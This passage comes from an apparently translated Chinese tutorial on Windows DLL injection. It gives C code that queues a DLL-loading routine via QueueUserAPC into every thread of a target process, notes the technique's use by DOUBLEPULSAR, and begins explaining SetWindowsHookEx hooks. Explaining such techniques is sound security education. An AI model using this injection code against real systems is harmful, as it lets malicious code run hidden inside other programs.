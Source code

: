 ```
DWORD dwResult = QueueUserAPC((PAPCFUNC)pfnThreadRtn, hThread, (ULONG_PTR)pszLibFileRemote);
```

当你尝试这种技术的时候，你可能会注意到，这与MS Windows执行APC的方式有关。但是，这里没有查看APC队列的调度器，这意味着，只有当线程变为可警示状态时，队列才会被检查。

这样，我们就可以劫持每一个线程了，具体如下。

```
BOOL bResult = Thread32First(hSnapshot, &amp;threadEntry);
  while (bResult)
  `{`
    bResult = Thread32Next(hSnapshot, &amp;threadEntry);
    if (bResult)
    `{`
      if (threadEntry.th32OwnerProcessID == dwProcessId)
      `{`
        threadId = threadEntry.th32ThreadID;
 
        wprintf(TEXT("[+] Using thread: %in"), threadId);
        HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, threadId);
        if (hThread == NULL)
          wprintf(TEXT("[-] Error: Can't open thread. Continuing to try other threads...n"));
        else
        `{`
          DWORD dwResult = QueueUserAPC((PAPCFUNC)pfnThreadRtn, hThread, (ULONG_PTR)pszLibFileRemote);
          if (!dwResult)
            wprintf(TEXT("[-] Error: Couldn't call QueueUserAPC on thread&gt; Continuing to try othrt threads...n"));
          else
            wprintf(TEXT("[+] Success: DLL injected via CreateRemoteThread().n"));
          CloseHandle(hThread);
        `}`
      `}`
    `}`
  `}`
```

我们这样做，主要是想让一个线程变为可警示状态。

顺便说一句，很高兴看到这种技术被[DOUBLEPULSAR](https://countercept.com/our-thinking/doublepulsar-usermode-analysis-generic-reflective-dll-loader/)应用。

完整的源代码，请参见“t_QueueUserAPC.cpp”文件。

**SetWindowsHookEx()**

为了使用这种技术，我们首先需要了解一下MS Windows钩子的工作原理。简单来说，钩子就是一种拦截事件并采取行动的方式。

你可能会猜到，会有很多不同类型的钩子。其中，最常见的是WH_KEYBOARD和WH_MOUSE。是的，你可能已经猜到了，它们可以用来监控键盘和鼠标的输入。

[SetWindowsHookEx()](https://msdn.microsoft.com/en-us/library/windows/desktop/ms644990%28v=vs.85%29.aspx)的作用是“将应用程序定义的钩子装到钩子链中。”



```
HHOOK WINAPI SetWindowsHookEx(
  _In_ int       idHook,
  _In_ HOOKPROC  lpfn,
  _In_ HINSTANCE hMod,
  _In_ DWORD     dwThreadId
);
```
